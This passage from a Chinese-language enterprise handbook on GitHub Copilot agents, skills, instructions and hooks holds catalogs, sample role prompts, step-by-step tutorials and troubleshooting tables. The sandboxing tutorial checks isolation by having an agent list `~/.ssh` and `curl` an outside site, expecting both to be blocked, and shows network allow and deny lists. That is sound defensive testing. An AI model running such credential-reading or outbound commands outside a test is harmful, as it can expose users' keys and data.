| security-agent | 安全審查 | 每次重大變更前 | read, search | security-review | Security Findings 報告 | LOW（唯讀） |
| database-agent | 資料庫設計 | 資料庫變更 | read, edit, search, terminal | — | Migration 腳本＋ER 圖 | MEDIUM |
| test-agent | 測試撰寫/審查 | 每次功能開發後 | read, edit, search, terminal | — | 測試程式碼＋覆蓋率報告 | MEDIUM |
| code-review-agent | Code Review | 每次 PR | read, search | — | Review 意見清單 | LOW（唯讀） |
| devops-agent | CI/CD 與部署 | 部署階段 | read, edit, search, terminal | — | 部署設定變更 | HIGH（影響生產環境） |
| documentation-agent | 技術文件撰寫 | 功能完成後 | read, edit, search | — | 更新後文件 | LOW |
| project-coordinator | 跨 Agent 協調 | 專案啟動與協調 | read, search | — | 任務分派紀錄 | LOW（唯讀） |

### 24.2 Skills Catalog

| Skill | Purpose | Input | Output | Trigger | Dependencies |
|---|---|---|---|---|---|
| web-application-development | 全端功能實作指引 | 需求描述 | 程式碼＋測試 | 新增/修改功能任務 | `java.instructions.md`／`vue.instructions.md` |
| reverse-engineering | Legacy 系統系統化分析 | Legacy 原始碼 | 8 項報告文件 | 逆向工程任務 | 無 |
| framework-migration | Framework 升級分析 | 現有依賴/程式碼 | Migration Plan | Framework 升級任務 | 官方 Migration Guide |
| security-review | OWASP 導向安全審查 | 程式碼變更 diff | Security Findings | Code Review 前置步驟 | 無 |
| vue-development | Vue 3 元件/頁面開發指引 | 需求描述、設計稿 | Vue 元件程式碼＋Vitest 測試 | 新增/修改前端 UI 任務 | `vue.instructions.md` |
| spring-boot-development | Spring Boot Controller/Service/Repository 開發指引 | API 規格、需求描述 | 後端程式碼＋JUnit 5 測試 | 新增/修改後端 API 任務 | `java.instructions.md`／`spring-boot.instructions.md` |
| database-analysis | Schema／索引／查詢效能分析 | 現有 Schema、慢查詢紀錄 | Database Analysis Report＋優化建議 | 資料庫效能疑慮、Migration 前置評估 | `database.instructions.md` |
| performance-analysis | 應用程式效能瓶頸分析 | Profiling 資料、APM 指標 | Performance Report＋優化建議 | 效能調校任務、上線前效能驗證 | Monitoring MCP（第 14.6 節） |
| testing | 測試策略規劃與補齊 | 現有程式碼＋既有測試涵蓋率 | 測試計畫＋新增測試程式碼 | 測試涵蓋率不足、新功能上線前 | `testing.instructions.md` |
| documentation | 技術文件產出與更新 | 程式碼變更、API 變更 | README／API 文件／變更說明 | 功能完成後、版本發布前 | 無 |
| api-design | REST API 設計與 OpenAPI 規格產出 | 需求描述、既有 API 慣例 | OpenAPI 規格文件＋端點設計 | 新增 API 前的設計階段 | `api.instructions.md` |
| architecture-analysis | 既有架構現況分析與改善建議 | 原始碼、既有架構文件 | Architecture Assessment Report | 重大重構前、技術債盤點 | 可搭配 `reverse-engineering` Skill 使用 |

> 上列後 8 項（Vue Development～Architecture Analysis）為表格骨架示意，企業實際導入時仍須依 8.2 節 Frontmatter 規格與 8.4 節三段式載入原則，比照第 8.7-8.10 節的四個完整範例撰寫各自的 `SKILL.md` 本文、步驟與重要限制，本表僅提供 Purpose／Input／Output／Trigger／Dependencies 的起點，不代表這些 Skill 已有完整實作內容。

### 24.3 Instructions Catalog

| Instruction | Scope | Purpose |
|---|---|---|
| `architecture.instructions.md` | `**/*` | Clean Architecture 分層規則 |
| `java.instructions.md` | `**/*.java` | Java 25 程式碼規範、命名慣例、例外處理 |
| `spring-boot.instructions.md` | `**/*.java`（Controller/Service/Repository） | Spring Boot 特定慣例（DTO 轉換、事務管理） |
| `vue.instructions.md` | `**/*.vue,**/*.ts` | Vue 3 Composition API、Pinia、Tailwind 慣例 |
| `typescript.instructions.md` | `**/*.ts,**/*.tsx` | TypeScript 型別規範 |
| `sql.instructions.md` | `**/*.sql` | SQL 撰寫規範、命名慣例 |
| `security.instructions.md` | `**/*` | OWASP 相關安全規則 |
| `testing.instructions.md` | `**/*.test.*,**/*Test.java` | 測試撰寫規範 |
| `git.instructions.md` | `**/*` | Commit message／Branch 命名規範 |
| `api.instructions.md` | `**/controller/**` | REST API 設計規範（回應格式、錯誤碼） |
| `database.instructions.md` | `**/repository/**,**/entity/**` | 資料庫存取層規範 |
| `devops.instructions.md` | `**/*.yml,**/Dockerfile` | CI/CD 與容器化規範 |

### 24.4 內建 Agent 對照：哪些不必自建（第四版新增）

在把上表 12 個 Agent 全部自建之前，請先對照第 9.7 節列出的**七個內建 Agent**（`general-purpose`、`explore`、`task`、`code-review`、`rubber-duck`、`research`、`security-review`），確認自建 Agent 的加值點何在：

| 企業 Agent | 是否有對應內建 Agent | 建議 |
|---|---|---|
| `system-architect` | 部分（`explore` 可做現況探索） | **仍需自建**：架構決策需要企業自有的技術選型與限制 |
| `code-review-agent` | 有（`code-review`） | **先用內建**，累積「內建做不到的地方」後再自建，並在 `.agent.md` 中只寫增量規則 |
| `security-agent` | 有（`security-review`） | 同上。自建版本應聚焦企業特有的合規要求（如個資、金融法規），而非重寫 OWASP 通則 |
| `reverse-engineering-agent` | 部分（`explore`＋`research`） | **仍需自建**：需要固定的 8 項報告輸出格式 |
| `migration-agent`／`database-agent`／`devops-agent` | 無 | **必須自建**：高風險且需嚴格 `tools` 管控 |
| `project-coordinator` | 無（`task` 只是委派機制，不含協作拓樸） | **必須自建**：Handoff 拓樸是企業自有設計（第 10 章） |

> **Catalog 治理建議（建議架構）**：在企業 Catalog 的每一列額外加一欄「**替代方案**」，明確寫出「若此 Agent 停用，改用哪個內建 Agent 頂替」。這在 Agent 出問題需要緊急停用時特別重要——否則團隊會直接失去該項能力。

### 本章 Checklist

- [ ] 已依三張 Catalog 建立企業初版目錄，並指派各項目的 Owner
- [ ] Catalog 已納入第 28 章 Resource Lifecycle 的定期複核排程
- [ ] 已依 24.4 對照內建 Agent，確認每個自建 Agent 都有明確加值點，未重複造輪
- [ ] Catalog 每一列已填寫「替代方案」欄，供緊急停用時頂替（24.4）

---

## 25. 實戰 Prompt 範例集

### 25.1 Reverse Engineering

```text
角色：你是資深 Software Architect（reverse-engineering-agent）。

情境：這是一套未有完整文件的 Legacy Java Web 系統。

目標：在不修改任何原始碼的前提下，完整理解系統架構、資料庫設計與商業邏輯。

限制：
- 不可修改任何原始碼
- 無法確認的商業意圖，必須標示「需人工確認」，不可臆測

步驟：
1. Repository Discovery
2. Code Inventory
3. Dependency Analysis
4. Architecture Discovery
5. Database Analysis
6. API Analysis
7. Security Analysis
8. Batch Analysis
9. Business Rule Extraction
10. Architecture Diagram（Mermaid）
11. Technical Debt Analysis
12. Modernization Recommendation

驗證：確認 8 項最終產出文件皆已產出，且「需人工確認」條目已明確列出清單。

輸出格式：Markdown 文件，存放於 docs/reverse-engineering/ 對應檔名。
```

### 25.2 Framework Upgrade

```text
角色：你是資深 Migration 專家（migration-agent）。

情境：分析此應用程式從 Spring Boot 3.x 升級到 Spring Boot 4.x 的可行性。

目標：產出完整 Migration Plan，在人工核准前不得修改任何程式碼。

限制：
- Migration Plan 完成前，不可修改程式碼
- Breaking Change 判定須對照官方 Migration Guide，不可憑推測

步驟：
1. Current System Assessment
2. Dependency Analysis
3. Breaking Change Detection
4. Configuration Analysis
5. Source Code Analysis
6. Security Analysis
7. Test Analysis
8. 產出 Migration Plan（含分階段升級步驟與風險評估）

驗證：Migration Plan 需包含可獨立驗證與回滾的分階段步驟。

輸出格式：Markdown Migration Plan 文件 + 風險評估表。
```

### 25.3 Security Review

```text
角色：你是資深資安工程師（security-agent）。

情境：對此次程式碼變更（PR diff）進行安全審查。

目標：依 OWASP Top 10 相關面向，找出所有安全風險。

限制：
- 只能提出審查意見，不可修改程式碼
- Critical 等級問題須在回應開頭明確標示

步驟：依 .github/skills/security-review/SKILL.md 定義的檢查面向逐一檢查：
SQL Injection、XSS、CSRF、Authentication、Authorization、Secret Leakage、
Dependency Vulnerabilities、Secure Configuration

驗證：每項發現須包含具體檔案位置與修復建議，不可只給模糊描述。

輸出格式：依 Critical／High／Medium／Low 分類的清單。
```

### 25.4 Architecture Review

```text
角色：你是資深 System Architect（system-architect）。

情境：審查此 Repository 是否符合 Clean Architecture 與 Hexagonal Architecture 原則。

目標：找出違反分層原則的地方，並提出改善建議。

限制：
- 只能分析，不可修改程式碼
- 建議需具體可執行，不可只給抽象原則

步驟：
1. 確認目前分層結構（Controller/Service/Repository/Entity 等）
2. 檢查是否有跨層直接依賴（如 Controller 直接呼叫 Repository）
3. 檢查 Domain 邏輯是否洩漏到 Infrastructure 層
4. 提出具體重構建議，並標示優先順序

驗證：每項發現需附上檔案位置與具體修改建議。

輸出格式：架構審查報告，含 Mermaid 現況圖與建議改善圖。
```

### 25.5 Web Application Development

```text
角色：你是 backend-architect / frontend-architect Agent。

情境：依本 Repository 既有架構與 Coding Standard 實作新功能。

目標：[具體功能描述，例如「新增訂單查詢 API 與對應前端頁面」]

限制：
- 遵循 .github/instructions/ 底下所有相關規範
- 遵循 .github/skills/web-application-development/SKILL.md 實作步驟
- 需補上對應測試

步驟：
1. 確認需求邊界（純前端／純後端／全端）
2. 依規範實作
3. 補上測試
4. 產出檔案變更清單摘要

驗證：對應測試指令（mvn test / npm run test:unit）全數通過。

輸出格式：變更檔案清單 + 關鍵程式碼片段 + 測試結果摘要。
```

### 本章 Checklist

- [ ] 5 組 Prompt 範例已依團隊實際專案調整過技術堆疊細節
- [ ] 每組 Prompt 都包含 Role／Context／Objective／Constraints／Steps／Validation／Output Format 七要素

---

## 26. 完整實戰 Tutorial（20 項）

> **本章定位說明**：下方 20 項為「Tutorial 導覽索引表」——目的、前置條件、關鍵步驟、預期結果、驗證方式、常見問題皆濃縮為一行，完整操作細節請對照「對應章節」欄位所指的章節（那些章節才有完整的 frontmatter 規格、範例檔案與 Scenario）。為了不讓本章淪為純索引、名實不符，26.1 額外挑選 4 項具代表性的 Tutorial（涵蓋「環境安裝」「宣告式資源建立」「事件驅動自動化」「安全隔離」四種不同性質的任務），完整展開為含實際指令輸出與驗證步驟的逐步操作指南，供讀者直接照做；其餘 16 項則維持索引表形式，讀者依「對應章節」連結過去即可取得同等深度的範例。

| # | Tutorial | 目的 | 前置條件 | 關鍵步驟 | 對應章節 | 預期結果 | 驗證方式 | 常見問題 |
|---|---|---|---|---|---|---|---|---|
| 1 | 安裝與第一次使用 | 安裝 Copilot CLI／VS Code 擴充並完成登入 | 已有 GitHub 帳號與 Copilot 授權 | `npm install -g @github/copilot` → `/login` | 第 4.5 節 | CLI 可正常回應 Prompt | 執行 `copilot --version` 確認安裝成功 | Node.js 版本過舊（需 22+） |
| 2 | 搜尋 awesome-copilot 資源 | 學會用官網/`llms.txt` 找到合適資源 | 已知需求類型（Agent/Skill/Instructions） | 瀏覽 `awesome-copilot.github.com` 依分類篩選 | 第 2.3-2.4 節 | 找到候選資源清單 | 對照第 21 章 Checklist 逐項確認 | 誤把「star 數高」當成「安全」的唯一判準 |
| 3 | 安裝 Plugin | 從 Marketplace 安裝一個 Plugin | 已完成 Tutorial 1 | `copilot plugin marketplace add github/awesome-copilot` → `copilot plugin install <name>@awesome-copilot` | 第 12.1 節 | Plugin 內含資源全數生效 | `copilot plugin list` 確認已安裝 | 忘記先註冊 Marketplace 來源 |
| 4 | 使用 Agent | 切換到指定 Custom Agent 執行任務 | `.github/agents/` 已有至少一個 `.agent.md` | 在 Chat／CLI 切換 Agent，輸入任務 | 第 9 章 | Agent 依其角色與工具授權執行 | 檢查輸出是否符合該 Agent 職責邊界 | 誤用審查型 Agent 去做實作任務 |
| 5 | 使用 Skill | 觸發特定 Skill 執行多步驟流程 | `.github/skills/` 已有至少一個 Skill | 描述符合 Skill `description` 情境的任務 | 第 8 章 | Skill 自動載入並依步驟執行 | 確認輸出格式符合 SKILL.md 定義 | `description` 寫太模糊導致誤觸發或不觸發 |
| 6 | 建立 Instructions | 撰寫一份 `*.instructions.md` | 已確認規則屬於「靜態、需自動套用」類型 | 依 7.5 節 `applyTo` 語法撰寫 | 第 7 章 | 對應路徑的檔案操作自動套用規則 | 修改對應路徑檔案，確認規則生效 | `applyTo` glob 語法錯誤導致未生效 |
| 7 | 建立 Custom Agent | 撰寫一份 `.agent.md` | 已確認角色定位與工具授權範圍 | 依 9.2 節 Frontmatter 欄位撰寫 | 第 9 章 | Agent 出現在可切換清單中 | 切換該 Agent 並測試典型任務 | `tools` 授權過寬，違反最小權限原則 |
| 8 | 建立 Skill | 撰寫一份 `SKILL.md` | 已確認為多步驟、需 bundled 資源的能力 | 依 8.2 節 Frontmatter + 三段式載入設計 | 第 8 章 | Skill 依相關性正確載入 | 用邊界案例測試是否誤觸發/不觸發 | 附屬資源路徑錯誤導致載入失敗 |
| 9 | 建立 Plugin | 打包多個資源成 Plugin | 已有經審查的 Agent／Skill／Hook | 依 11.3-11.4 節撰寫 `plugin.json` | 第 11 章 | Plugin 可被安裝且內含資源全數生效 | 在沙盒環境安裝驗證 | Schema 版本與實際安裝環境不相容 |
| 10 | 建立 Hook | 撰寫事件驅動自動化 | 已確認需要「確定性」而非「AI 判斷」的自動化 | 依 13.3-13.4 節撰寫 Hook JSON + Shell 腳本 | 第 13 章 | 指定事件觸發時自動執行 | 確認已合併到 default branch 後測試 | Hook 只存在於 feature branch，未套用 |
| 11 | 整合 MCP | 設定 MCP Server 連接外部系統 | 已確認外部系統的存取權限與認證方式 | 依 14.5 節撰寫 `mcp.json`，用環境變數注入認證 | 第 14 章 | Agent 可查詢/操作外部系統 | 執行一次唯讀查詢驗證連線正常 | 把 Secret 硬編碼進設定檔並提交版控 |
| 12 | Web Application Development | 端到端實作一個功能 | 已完成 Tutorial 4-8 | 依 15.2 節流程圖執行 | 第 15 章 | 功能完成且通過測試/審查 | 對應測試指令全數通過 | 跳過 Security／Code Review 關卡 |
| 13 | Reverse Engineering | 分析一套 Legacy 系統 | 已建立 `reverse-engineering-agent` | 依 16.2 節 12 步驟執行 | 第 16 章 | 產出 8 項報告文件 | 檢查「需人工確認」條目是否已排入複核 | 誤讓 Agent 具備寫入權限 |
| 14 | Framework Migration | 評估並執行框架升級 | 已建立 `migration-agent` | 依 17.1 節流程圖執行 | 第 17 章 | 產出經核准的 Migration Plan 並完成升級 | 每階段皆可獨立驗證/回滾 | 未設人工核准關卡直接自動變更 |
| 15 | Security Review | 對變更執行安全審查 | 已建立 `security-agent` | 依 25.3 節 Prompt 執行 | 第 8.10、25.3 節 | 產出分級 Security Findings | Critical 問題是否已優先處理 | 把審查意見當成「已修復」而未實際處理 |
| 16 | Code Review | 對 PR 執行程式碼審查 | 已建立 `code-review-agent` | 切換 Agent，指定 PR/diff 範圍 | 第 9.4 節 | 產出具體可執行的審查意見 | 對照企業 Code Review 標準逐項確認 | 讓審查型 Agent 誤取得修改權限 |
| 17 | CI/CD Integration | 將 Hook／Agentic Workflow 整合進 CI/CD | 已完成 Tutorial 10 | 依 4.2 節 `gh-aw` 流程編譯 Workflow | 第 4.2、13 章 | Pipeline 中自動執行 Agent 任務 | 檢查 Actions 執行紀錄 | 誤提交 `.lock.yml` 編譯產物 |
| 18 | Enterprise Governance | 建立企業治理流程 | 已完成 Tutorial 1-17 | 依 20.3 節 Governance Workflow 執行 | 第 20-21 章 | 建立 Approved Catalog 與定期複核機制 | 抽查任一已核准資源，確認審查紀錄完整 | Governance 流程只在導入初期執行一次，後續未持續複核 |
| 19 | 啟用 Agent Sandboxing | 在 OS 層級隔離 Agent 的終端機指令 | macOS 或 Linux／WSL2（WSL1 不支援） | 安裝 `bubblewrap`＋`socat`（Linux）→ 設 `chat.agent.sandbox.enabled: on` | 第 20.6 節 | 沙箱內指令自動核准、不再跟提示 | 執行一次對外連線指令，確認被封鎖 | 誤以為沙箱也管得到檔案編輯工具（實際不管） |
| 20 | 客製化檔案品質評測 | 找出 Skill／Agent 規則的矛盾與模糊處 | 已有至少一份 `SKILL.md` 或 `.agent.md` | 安裝 Chat Customizations Evaluations → 開啟檔案看 Problems 面板 → `/analyze-prompt` | 第 8.11 節 | 取得可執行的改寫建議清單 | Problems 面板診斷清空 | 未先選定正確的 agent harness，導致清單不完整 |

### 26.1 精選 Tutorial 完整逐步示範

#### Tutorial 1：安裝與第一次使用（完整版）

1. 確認 Node.js 版本 ≥ 22、npm 版本 ≥ 10：

   ```bash
   node --version   # 預期輸出如 v22.x.x 或更新
   npm --version    # 預期輸出如 10.x.x 或更新
   ```

2. 安裝 Copilot CLI：

   ```bash
   npm install -g @github/copilot
   ```

3. 首次啟動並登入：

   ```bash
   copilot
   # 進入互動模式後輸入
   /login
   # 依畫面指示於瀏覽器完成 GitHub 帳號授權
   ```

4. 驗證安裝成功：

   ```bash
   copilot --version
   # 預期輸出版本號，例如：GitHub Copilot CLI 1.x.x
   ```

5. 驗證預設 Marketplace 已註冊（依第 12.1 節 2026-08-27 查證更新）：

   ```bash
   copilot plugin marketplace list
   # 預期輸出應包含 copilot-plugins 與 awesome-copilot 兩個來源
   ```

**常見問題排解**：若步驟 1 顯示 Node.js 版本過舊，需先升級 Node.js（建議用 `nvm install 22` 管理版本）才能繼續；若步驟 5 未看到 `awesome-copilot`，代表 CLI 版本較舊，需依 12.1 節手動執行 `copilot plugin marketplace add github/awesome-copilot` 補註冊。

#### Tutorial 6：建立 Instructions（完整版）

以「Controller 命名規範」為例，示範從撰寫到驗證生效的完整流程：

1. 建立檔案 `.github/instructions/api-naming.instructions.md`：

   ```markdown
   ---
   applyTo: "**/controller/**/*.java"
   ---

   # API Controller 命名規範

   - Controller 類別名稱一律以 `Controller` 結尾（如 `OrderController`）
   - 所有 Endpoint 方法須加上 `@Operation` OpenAPI 註解
   ```

2. 提交並合併到 default branch（依 7.4 節優先順序說明，Repository 層級規則對所有協作者生效）：

   ```bash
   git add .github/instructions/api-naming.instructions.md
   git commit -m "docs: add API controller naming instructions"
   git push
   ```

3. 驗證是否生效：在 VS Code 中開啟任一 `**/controller/**/*.java` 檔案，於 Copilot Chat 詢問「這個 Controller 是否符合命名規範？」，預期 Copilot 的回答會引用上述規則內容，而非泛泛而談。
4. 若懷疑未生效，依第 27 章 Troubleshooting「Instructions 沒有效果」排查：確認 `applyTo` 的 glob 語法是否有多餘空格、確認檔案路徑確實在 `.github/instructions/` 底下。

#### Tutorial 10：建立 Hook（完整版）

以「Session 開始時驗證分支名稱」為最小可行範例：

1. 建立腳本 `scripts/hooks/branch-name-check.sh`：

   ```bash
   #!/usr/bin/env bash
   BRANCH=$(git rev-parse --abbrev-ref HEAD)
   if [[ ! "$BRANCH" =~ ^(feature|fix|chore)/ ]]; then
     echo "[hook] 警告：目前分支 '$BRANCH' 不符合命名規範（需以 feature/、fix/、chore/ 開頭）"
   fi
   exit 0
   ```

2. 建立設定檔 `.github/hooks/branch-name-check.json`：

   ```json
   {
     "version": 1,
     "name": "branch-name-check",
     "description": "Warn when the current branch does not follow naming convention.",
     "event": "sessionStart",
     "timeoutSec": 10,
     "command": "./scripts/hooks/branch-name-check.sh"
   }
   ```

3. **關鍵步驟**（依 13.3 節限制，這是最容易漏掉的一步）：確認兩個檔案都已合併到 **default branch**，而非只存在於 feature branch：

   ```bash
   git add .github/hooks/branch-name-check.json scripts/hooks/branch-name-check.sh
   git commit -m "feat: add branch name check hook"
   git push origin main   # 或團隊的 default branch 名稱
   ```

4. 驗證：開啟新的 Copilot Agent Session，若目前分支不符合命名規範，Session 開始時應能在 Log／輸出中看到步驟 1 腳本印出的警告訊息。
5. 若沒有看到警告，依第 27 章 Troubleshooting「Hook 沒有執行」排查：最常見原因就是 Hook 設定檔還停留在未合併的 feature branch 上。

#### Tutorial 19：啟用 Agent Sandboxing（完整版）

以 Linux／WSL2 環境為例（macOS 可跳過步驟 1）：

1. 安裝 OS 層隔離所需的兩個套件：

   ```bash
   # Debian / Ubuntu
   sudo apt-get install bubblewrap socat

   # Fedora / RHEL
   sudo dnf install bubblewrap socat
   ```

2. 在 VS Code `settings.json` 中啟用沙箱（預設為 `off`）：

   ```json
   {
     "chat.agent.sandbox.enabled": "on",
     "chat.agent.sandbox.allowNetwork": false
   }
   ```

3. 驗證**檔案系統隔離**：要求 Agent 執行一個讀取 `$HOME` 敏感檔的指令（例如列出 `~/.ssh`），預期應被拒絕：

   ```bash
   ls ~/.ssh
   ```

4. 驗證**網路隔離**：要求 Agent 執行一個對外連線指令，預期應被封鎖：

   ```bash
   curl -sS https://example.com
   ```

5. 若團隊確實需要特定網域（例如內部 npm registry），再逐一放行，**不要直接打開全部網路**：

   ```json
   {
     "chat.agent.sandbox.allowNetwork": true,
     "chat.agent.allowedNetworkDomains": ["registry.npmjs.org"],
     "chat.agent.deniedNetworkDomains": ["api.github.com"]
   }
   ```

6. 驗收重點：確認沙箱內的指令**不再跟出核准提示**（這正是沙箱的價值：用 OS 邊界取代人工核准疲勞），且上述步驟 3～4 的協定依然失敗。

> ⚠️ 本 Tutorial 的指令與設定名稱取自 VS Code 官方文件（官方已實作，Preview 階段）；步驟的組合方式與驗證順序為本手冊建議架構。因為仍是 Preview，導入前請重新確認設定名稱是否變更。

### 本章 Checklist

- [ ] 新人已依序完成 Tutorial 1-11（基礎操作），其中 Tutorial 1／6／10 已依 26.1 完整版逐步操作過
- [ ] 團隊已完成 Tutorial 12-17（實戰案例）至少一輪
- [ ] Tutorial 18（Governance）已成為持續性流程，而非一次性活動
- [ ] Tutorial 19（Agent Sandboxing）已在至少一台開發機器實際驗證過隔離行為
- [ ] Tutorial 20（客製化品質評測）已納入第 31 章 Quality Gate

---

## 27. Troubleshooting

### 27.1 常見問題對照表

| 問題 | 常見原因 | 解決方式 |
|---|---|---|
| Agent 沒有出現在可切換清單 | `.agent.md` 存放路徑錯誤、frontmatter 格式錯誤 | 確認放在 `.github/agents/`／`.claude/agents/`／`~/.copilot/agents/`，並檢查 YAML frontmatter 語法 |
| Skill 沒有被觸發 | `description` 描述不夠精確，或與當前任務相關性判斷失敗 | 依 8.5 節改寫更明確的觸發情境描述；必要時設 `user-invocable` 讓使用者可手動呼叫 |
| Instructions 沒有效果 | `applyTo` glob 語法錯誤，或檔案未存放在正確目錄 | 核對 7.5 節語法範例，確認逗號分隔與引號都正確 |
| Plugin 無法安裝 | Marketplace 未註冊、`plugin.json` schema 版本不符 | 先執行 `copilot plugin marketplace add`，並核對 schema 版本 |
| MCP 無法連線 | 設定檔路徑錯誤、認證資訊未正確注入 | 核對 14.4 節各 Client 的設定位置，確認環境變數已正確設定 |
| Hook 沒有執行 | Hook 設定檔只存在於 feature branch，未合併到 default branch | 依 13.3 節限制，合併到 default branch 後重新測試 |
| Agent 使用錯誤工具 | `tools` 授權設定過寬，或沿用了其他 Agent 的範本 | 依角色重新檢視 `tools` 欄位，套用最小權限原則（9.4 節 Scenario） |
| AI 修改了不相關檔案 | 缺乏明確 Scope 邊界、Agent 工具授權過寬 | 依 19.2 節防護措施，建立「不可修改清單」與人工核准關卡 |
| Agent 產生錯誤程式碼 | Instructions／Skill 規則不夠具體，或 Context 不足 | 補充更具體的 Instructions／Skill 步驟，必要時提供範例程式碼 |
| Context 不足 | `AGENTS.md`／Instructions 內容過於簡略 | 補充建置指令、目錄結構說明、重要限制（參考 7.6 節範例） |
| Token 使用過高 | Skill／Instructions 內容冗長，或未善用漸進載入機制 | 精簡 `description`，善用第 8.4 節三段式漸進載入，避免一次性塞入大量內容 |
| Agent 陷入循環 | Handoff 迴圈設計錯誤，或任務邊界不清楚 | 檢查 `handoffs` 設定是否形成迴路，人工中斷並重新設計協作拓樸（第 10 章） |
| 客製化在某一 harness 有效、換一個就沒效 | 選錯 Session Target 的 agent harness（Local／Copilot／Claude／Codex） | 先確認目前 harness，再對照第 6.5 支援矩陣與第 6.7 節釐清 |
| 個人層 Agent／Skill 完全讀不到 | 檔案放在 VS Code profile，而 Agent Host 讀的是 `~/.copilot`／`~/.claude` | 依第 9.6 節使用使用者客製化遷移，或直接上推至 Repository |
| Monorepo 子專案讀不到共用規則 | `chat.useCustomizationsInParentRepositories` 未開啟，或父目錄未被信任 | 依第 6.4 節三項生效條件逐一檢查 |
| 終端機指令在沙箱中失敗或連不上網路 | Agent Sandboxing 預設封鎖所有對外連線、且拒讀 `$HOME` | 依第 20.6 節調整 `chat.agent.allowedNetworkDomains`；確認 Linux 已安裝 `bubblewrap`、`socat` |
| Skill 規則前後矛盾、Agent 行為不穩定 | 客製化檔案內部或檔案間存在語意衝突 | 用第 8.11 節 Chat Customizations Evaluations 分析，依 Problems 面板逐項修正 |

### 27.2 Agent Debug Panel 與標準診斷流程

上表是「已知症狀 → 已知原因」的對照；當問題不在表中時，請走以下官方診斷入口（2026-08-28 複查 VS Code 官方文件，官方已實作）：

| 入口 | 操作路徑 | 看得到什麼 |
|---|---|---|
| Agent Debug Panel | Command Palette → `Developer: Open Agent Debug Panel` | 本次請求實際載入了哪些客製化資源 |
| Agent Debug Logs | Chat 檢視右上「…」選單 → **Show Agent Debug Logs** | 載入順序、被忽略的檔案、工具呼叫紀錄 |
| **`/troubleshoot` Skill**（第四版新增） | 在 Agents 視窗的 Chat 輸入框輸入 `/troubleshoot`，接著輸入 `#session` 選取要診斷的 session，再描述問題 | **由 AI 代你分析 Chat session log**，針對「為何自訂指令被忽略」、「為何回應很慢」直接給出洞察 |

> **實務建議（建議架構）**：`/troubleshoot` 與 Agent Debug Panel 的分工是「**問 AI** vs **自己看**」。Debug Panel 給的是原始事實（載入了什麼），適合你已經知道要找什麼；`/troubleshoot` 適合「不知道該從哪裡看起」的情況。建議對**新人**的標準指引直接寫成「先跑 `/troubleshoot`，看不懂再開 Debug Panel」，可大幅降低向内部平台團隊發問的量。

> ⚠️ **資安提醒（建議架構）**：`/troubleshoot` 會把 **session log 送進模型**分析。若該 session 曾出現內部主機名稱、連線字串、或不小心貼上的憑證，這些內容就會一併送出。請在企業政策中明訂：涉及正式環境的 session 不得使用此功能，或需先以最小重現專案重現後再診斷。

**建議的五步診斷流程（建議架構）**：



圖說：本流程為本手冊建議的診斷順序（建議架構），其中步驟 2 的工具為官方提供。實務上大多數「為什麼沒生效」的問題在步驟 1～3 就能釐清，不要一開始就改檔案內容。

### 本章 Checklist

- [ ] 已將本表納入團隊內部 Wiki／FAQ，供新人自助排解問題
- [ ] 已將 27.2 的五步診斷流程列為團隊標準，避免盲目改檔案
- [ ] 「Agent 陷入循環」與「AI 修改不相關檔案」已有明確的人工中斷/回滾程序
- [ ] 新人指引已寫入「先跑 `/troubleshoot`、再開 Agent Debug Panel」的自助排解順序（27.2）
- [ ] 已明訂涉及正式環境或含敏感資訊的 session 不得使用 `/troubleshoot`（27.2）

---

## 28. 維護策略

### 28.1 版控與變更流程

企業自建的 Agent／Skill／Instructions／Plugin／Hook 應比照一般程式碼，納入 Git 版控與標準 PR 流程：

- **Branch Strategy**：客製化資源變更走與程式碼相同的 Feature Branch → PR → Review → Merge 流程
- **Pull Request**：每個 PR 須說明變更的資源類型、影響範圍
- **Code Review**：至少一位熟悉該資源類型的同仁審查
- **Agent／Skill／Plugin／MCP Review**：額外比照第 21 章安全評估 Checklist
- **Security Review**：涉及 Hook／Plugin／MCP 的變更，須經 Security Team 審查
- **Versioning／Changelog**：重大變更需更新版本號與 Changelog
- **Deprecation／Rollback**：淘汰資源需有明確過渡期通知，變更造成問題時可快速回滾
- **Compatibility Testing**：變更後於沙盒環境驗證，確認未破壞既有行為

### 28.2 Resource Lifecycle



### Scenario

某企業的 Security Instructions 因為沒有版控與變更歷程，某次被人「順手」改鬆了規則卻沒有人知道，直到資安事件發生才追查出來。**修正**：所有客製化資源比照程式碼走 PR 流程，任何變更都有明確的 Reviewer 與 Commit 紀錄可追溯。

### 本章 Checklist

- [ ] 所有客製化資源已納入 Git 版控，禁止直接編輯正式環境檔案
- [ ] 已建立 Deprecation 通知機制，避免資源被無預警移除
- [ ] Resource Lifecycle 各階段皆有明確的 Owner／Reviewer

---

## 29. Upgrade Playbook

### 29.1 Awesome Copilot Upgrade Playbook



### 29.2 每個步驟的重點

| 步驟 | 重點 |
|---|---|
